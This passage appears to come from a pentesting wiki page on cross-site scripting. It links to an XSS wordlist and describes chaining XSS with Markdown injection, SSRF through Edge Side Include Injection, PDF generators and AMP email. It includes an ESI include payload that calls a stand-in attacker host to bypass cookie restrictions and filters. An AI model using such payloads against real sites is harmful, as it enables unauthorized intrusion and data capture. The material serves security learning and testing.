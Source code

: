 ### Brute-Force List

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt
{{#endref}}

## XSS Abusing other vulnerabilities

### XSS in Markdown

Can inject Markdown code that will be renderer? Maybe you you can get XSS! Check:

{{#ref}}
xss-in-markdown.md
{{#endref}}

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!\
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

{{#ref}}
server-side-xss-dynamic-pdf.md
{{#endref}}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{{#ref}}
pdf-injection.md
{{#endref}}

### XSS in Amp4Email

AMP, aimed at accelerating web page performance on mobile devices, incorporates HTML tags supplemented by JavaScript to ensure functionality with an emphasis on speed and security. It supports a range of components for various features, accessible via [AMP components](https://amp.dev/documentation/components/?format=websites).

The [**AMP for Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) format extends specific AMP components to emails, enabling recipients to interact with content directly within their emails.
